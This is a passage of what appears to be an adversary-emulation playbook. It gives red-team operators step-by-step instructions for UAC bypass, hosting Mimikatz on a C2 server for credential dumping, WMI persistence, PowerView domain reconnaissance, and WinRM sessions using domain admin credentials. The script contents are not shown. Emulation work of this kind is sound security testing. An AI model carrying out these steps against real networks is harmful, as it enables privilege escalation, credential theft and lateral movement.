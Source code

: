 #### 14.A

1.  Load `stepFourteen_bypassUAC.ps1`
2.  Execute `bypass`
3.  You will now receive a new, high integrity callback

#### 14.B
    
1.  Go to  where m.exe is on C2 server in another terminal
2.  Confirm `m.exe` is there and is a Windows PE (`$ file m`)
    *  `m.exe` is a copy of the Mimikatz executable (available at https://github.com/gentilkiwi/mimikatz)
3.  Host file on port 8080 (`$ sudo python -m SimpleHTTPServer 8080`)
4.  Interact with new callback
5.  Load `stepFourteen_credDump.ps1`
6.  Execute `wmidump`
7.  Kill the python server (CTRL-C) once you see a GET request on the python server (VM terminal)

### Step 15 - Establish Persistence

#### 15.A

1.  Load `stepFifteen_wmi.ps1`
2.  Execute `wmi`
    
**Note:** Do not RDP into the initial access from this point forward, you will trigger callbacks intended for step 20

### Step 16 - Lateral Movement

#### 16.A

1.  Interact with low integrity callback
2.  Load `powerView.ps1` (available at https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
3.  Execute `get-netdomaincontroller`

#### 16.B

1. Load `stepSixteen_SID.ps1`
2. Execute `siduser`
3. Save the value for the domain SID (ex: `S-1-5-21-2219224806-3979921203-557828661-1110`) and delete the RID (ex: `-1110`) of the end (ex: `S-1-5-21-2219224806-3979921203-557828661`)

#### 16.C

1. Interact with high integrity callback
2. Load `Invoke-WinRMSession.ps1` (available at https://github.com/nettitude/PoshC2/blob/master/resources/modules/Invoke-WinRMSession.ps1)
3. Execute `invoke-winrmsession -Username "[insert domain admin username]" -Password "[insert domain admin password]" -IPAddress [insert domain controller IP]`
4. Output will tell you a session opened and give you the format for using it, ex:
    `Session opened, to run a command do the following:`
    `Invoke-Command -Session $[session_id] -scriptblock {Get-Process} | out-string`
5. Save the value for the session_id (ex: `$hzaqx`)
